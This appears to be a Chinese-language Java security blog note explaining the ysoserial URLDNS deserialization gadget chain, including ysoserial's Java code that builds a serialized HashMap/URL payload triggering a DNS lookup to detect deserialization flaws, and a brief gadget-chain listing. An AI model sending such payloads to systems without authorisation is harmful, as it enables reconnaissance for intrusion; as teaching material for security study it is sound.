 ```yaml
---
title: javasec-urldns链
date: 2024-08-03T15:51:23+08:00
lastmod: 2025-09-29T20:53:14
tags:
  - sec
toc: "true"
---
```

# urldns链
URLDNS 是ysoserial中⼀个利⽤链的名字，但准确来说，这个其实不能称作“利⽤链”。因为其参数不是⼀个可以“利⽤”的命令，⽽仅为⼀个URL，其能触发的结果也不是命令执⾏，⽽是⼀次DNS请求。 

虽然这个“利⽤链”实际上是不能“利⽤”的，但因为其如下的优点，⾮常适合我们在检测反序列化漏洞时使⽤
- 使⽤Java内置的类构造，对第三⽅库没有依赖,因此对java版本没有限制
- 在⽬标没有回显的时候，能够通过DNS请求得知是否存在反序列化漏洞

## 前置知识

### gadget
Java反序列化漏洞产生漏洞的形式大致有两种,

- 一种是上下文入口类的readObject方法中直接包含了危险操作(危险函数)且传入危险函数的参数可控(这种情况很少)
- 还有一种情况就是入口类的readObject方法中间接调用了其它类(B类),在B类中又调用了恶意的方法或调用了其它包含恶意方法的类,这种链式触发命令执行的结构被称为反序列化利用链,组成这种链式结构中的"成员类"被称为Gadget而这种链式结构被称为Gadget Chain,通过构造Gadget Chain可以进行反序列化攻击。

## 漏洞分析
ysoserial里是这样生成payload的
```java
public Object getObject(final String url) throws Exception {
             //Avoid DNS resolution during payload creation
             //Since the field <code>java.net.URL.handler</code> is transient, it will not be part of the serialized payload.
             URLStreamHandler handler = new SilentURLStreamHandler();

             HashMap ht = new HashMap(); // HashMap that will contain the URL
             URL u = new URL(null, url, handler); // URL to use as the Key
             ht.put(u, url); //The value can be anything that is Serializable, URL as the key is what triggers the DNS lookup.

             Reflections.setFieldValue(u, "hashCode", -1); // During the put above, the URL's hashCode is calculated and cached. This resets that so the next time hashCode is called a DNS lookup will be triggered.

             return ht;
     }
     
     static class SilentURLStreamHandler extends URLStreamHandler {
     protected URLConnection openConnection(URL u) throws IOException {
         return null;
     }
     protected synchronized InetAddress getHostAddress(URL u) {
         return null;
     }
 }
```
利用链
```
Gadget Chain:
  HashMap.readObject()
    HashMap.putVal()
```